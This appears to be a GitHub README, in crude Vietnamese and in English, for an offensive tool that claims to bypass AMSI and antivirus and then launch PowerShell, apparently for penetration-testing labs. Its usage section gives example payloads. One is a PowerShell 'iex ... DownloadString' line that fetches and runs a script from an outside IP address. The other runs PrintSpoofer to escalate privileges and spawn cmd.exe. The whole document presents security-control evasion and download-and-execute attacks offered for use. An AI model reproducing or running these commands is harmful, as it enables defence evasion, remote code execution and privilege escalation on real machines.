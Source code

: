 # god-bo-tung

Bố Tùng viết cái này để bypass amsi, trigger powershell và bypass AV lên đến 99% cho các con cháu múa trong labs

Nói chung ngu thì upload xong chạy thử, không được thì RDP xong chạy


god3.exe <dường dẫn file payload>
Ex:
    god3.exe C:\User\Public\Desktop\payload.txt
    
    payload.txt: powershell -Sta -Nop -Command "iex (New-Object Net.WebClient).DownloadString('http://192.168.49.121/gg.sp1')"
    
    hoặc
    
    payload.txt: C:\User\Public\Desktop\PrintSpoofer64.exe -c "cmd.exe"
    
Có 2 trường hợp của tool:

- TH1(Dành cho trường hợp ko truyền đc param vào cmd hoặc ko muốn truyền) Nếu không nhập đường dẫn file payload.txt. Tool sẽ tự tìm file tên "godpay" trong cùng thư mục của file god3.exe rồi đọc paylaod trong file đấy

- TH1(Chỉ muốn bật powershell)Nếu không tồn tại file "godpay" thì tool chỉ bật powershell 

Kiểm tra kỹ năng óc chó khi không có bố Tùng: 
https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell



# English

complied from https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell.

Run god3.exe C:\User\Public\Desktop\payload.txt

payload.txt: powershell -Sta -Nop -Command "iex (New-Object Net.WebClient).DownloadString('http://192.168.49.121/gg.sp1')"
    
or
    
payload.txt: C:\User\Public\Desktop\PrintSpoofer64.exe -c "cmd.exe"




